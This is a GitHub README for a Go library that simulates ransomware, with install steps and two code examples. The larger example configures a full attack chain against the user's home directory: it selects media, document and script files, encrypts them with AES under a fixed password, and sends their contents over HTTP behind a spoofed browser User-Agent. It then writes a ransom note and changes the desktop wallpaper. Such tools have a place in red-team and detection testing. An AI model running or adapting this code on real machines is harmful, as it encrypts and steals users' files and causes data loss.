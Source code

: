 # Ransimware

[![Yum](https://img.shields.io/badge/-Buy%20me%20a%20cookie-blue?style=for-the-badge&logo=cookiecutter)](https://www.buymeacoffee.com/mjwhitta)

[![Go Report Card](https://goreportcard.com/badge/github.com/mjwhitta/ransimware)](https://goreportcard.com/report/github.com/mjwhitta/ransimware)

## What is this?

This Go module allows you to simulate ransomware.

## How to install

Open a terminal and run the following:

```
$ go get --ldflags="-s -w" --trimpath -u \
    github.com/mjwhitta/ransimware
```

## Usage

Minimal example:

```
package main

import (
    "os"
    "path/filepath"

    rw "github.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Since no encrypt function is defined, the default behavior is
    // to do nothing

    // Since no exfil function is defined, the default behavior is to
    // do nothing

    // Since no notify function is defined, the default behavior is to
    // do nothing

    // Target the user's Desktop directory
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

More complex example:

```
package main

import (
    "os"
    "path/filepath"
    "strings"

    rw "github.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Include interesting extensions
    sim.Include(`\.(avi|mkv|mov|mp[34]|mpeg4?|ogg|wav)$`) // vids
    sim.Include(`\.(bmp|gif|ico|jpe?g|png|tiff)$`)        // imgs
    sim.Include(`\.(docx|pptx|txt|xlsx|zip)$`)            // docs
    sim.Include(`\.(bat|ps1|xml)$`)                       // misc

    // Ignore directories
    sim.Exclude(`All\sUsers|AppData.Local|cache2.entries|Games`)
    sim.Exclude(
        `Local\sSettings|Low.Content\.IE5|Program(Data|\sFiles)`,
    )
    sim.Exclude(`Tor\sBrowser|User\sData.Default.Cache|Windows`)

    // Ignore AnyConnect cache/config
    sim.Exclude(`\.cisco|Cisco`)

    // Ignore extensions
    sim.Exclude(`\.(bin|dll|exe|in[fi]|lnk|ransimware|sys)$`)

    // Set encryption method to AES using provided helper function
    sim.Encrypt = rw.AESEncrypt("password")

    // Set exfil method to be HTTP using provided helper function
    sim.Exfil, e = rw.HTTPExfil(
        "http://localhost:8080",
        map[string]string{
            "User-Agent": strings.Join(
                []string{
                    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
                    "AppleWebKit/537.36 (KHTML, like Gecko)",
                    "Chrome/84.0.4147.105 Safari/537.36",
                },
                " ",
            ),
        },
    )
    if e != nil {
        panic(e)
    }

    // Notify user by changing wallpaper and leaving a ransom note,
    // using the provided helper functions
    sim.Notify = func() error {
        rw.RansomNote(
            filepath.Join(home, "Desktop", "ransomnote.txt"),
            []string{"This is a ransomware simulation."},
        )()

        rw.WallpaperNotify(
            filepath.Join(home, "Desktop", "ransom.png"),
            rw.DefaultPNG,
            rw.DesktopStretch,
            false,
        )()

        return nil
    }

    // Target the user's home directory
    if e = sim.Target(home); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

## Links

- [Source](https://github.com/mjwhitta/ransimware)

## TODO

- Provide more helper functions
    - FTP exfil
